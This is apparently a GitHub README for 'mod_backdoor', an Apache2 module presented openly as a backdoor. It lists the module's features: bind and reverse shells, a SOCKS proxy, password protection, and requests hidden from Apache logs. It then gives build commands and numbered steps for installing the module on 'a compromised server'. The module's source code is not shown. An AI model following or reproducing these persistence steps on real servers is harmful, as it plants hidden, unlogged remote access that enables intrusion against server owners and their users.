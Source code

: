 # Apache2 mod_backdoor
Apache2 Module Backdoor is inspired from Ringbuilder. <br/>

More info about Ringbuilder: https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>
Original Author : Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))

# Features

* Bind TTY Shell
* Reverse Shell (Native TTY ,PHP, Perl, Python, Ruby)
* Socks proxy (Socks5 code from https://github.com/fgssfgss/socks_proxy)
* Password Protection
* Ping module to know if its active
* Endpoint that restart Apache2

All the requests to the module **are not logged by Apache2**


# Notes
Socks5 code was adapted from https://github.com/fgssfgss/socks_proxy

# Build
For developpement :<br/>
* `apxs -i -a -c mod_backdoor.c -Wl,-lutil` <br/>
 -Wl,-lutil used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Create `/etc/apache2/mod-available/backdoor.load` with content:<br/>
 `LoadModule backdoor_module /usr/lib/apache2/modules/mod_backdoor.so`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))
